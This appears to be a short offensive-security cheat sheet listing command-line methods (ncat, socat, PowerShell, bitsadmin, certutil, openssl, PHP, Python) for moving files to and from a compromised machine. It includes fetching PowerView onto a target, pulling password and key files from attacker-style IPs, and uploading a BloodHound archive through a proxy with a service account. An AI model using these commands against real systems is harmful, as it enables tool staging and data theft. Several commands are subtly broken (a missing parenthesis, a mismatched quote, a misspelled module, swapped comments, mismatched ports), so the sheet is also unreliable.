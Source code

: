 # File-Transfers

***ncat***

```shell
nc -nv 192.168.1.129 4444 > file_to_send.txt # the file we will transfer 

nc -lnvp 4444 < file_to_send.txt # download file on the target machine 

```

***socat***

```shell

socat TCP4-LISTEN:1337,fork file:~/home/mastermind/key.txt # the file we will send 

socat - TCP4:192.168.1.129:1337 # download the file 

```

***powershell***

```powershell

New-Object System.Net.WebClient).DownloadFile('http://192.168.1.122:8080/file_to_download.txt',"C:\Users\Public\Downloads\file_to_download.txt")

```

```powershell

Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

```
***bitsadmin***

```powershell

bitsadmin /transfer n http://192.168.1.123/password.txt C:\User\Mastermind\password.txt # download the file

```

```powershell
# Download 
Import-Module bitstransfer;Start-BitsTransfer -Source "http://192.168.1.123/password.txt" -Destination C:\User\Mastermind\password.txt" 

```
```powershell
#upload 

Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql

```
***Certutil***

```
certutil.exe -verifyctl -split -f http://192.168.1.1/file.txt

```

***openssl***

```shell
# create the cert

openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# set up a server 

openssl s_server -quiet -accept 8081 -cert certificate.pem -key key.pem < /file_to_download.txt

# Download the file on target machine 

openssl s_client -connect 127.0.0.1:8080 -quiet > file_to_download.txt
```

***php***

```shell
php -r '$file = file_get_contents("http://10.10.10.12:8080/file_to_download.txt"); file_put_contents("file_to_download.txt",$file);'
```

***python***

```python 
import urlib.request

urllib.request.urlretrieve("http://10.10.10.12:8080/file_to_download.txt", "file_to_download.txt")

```







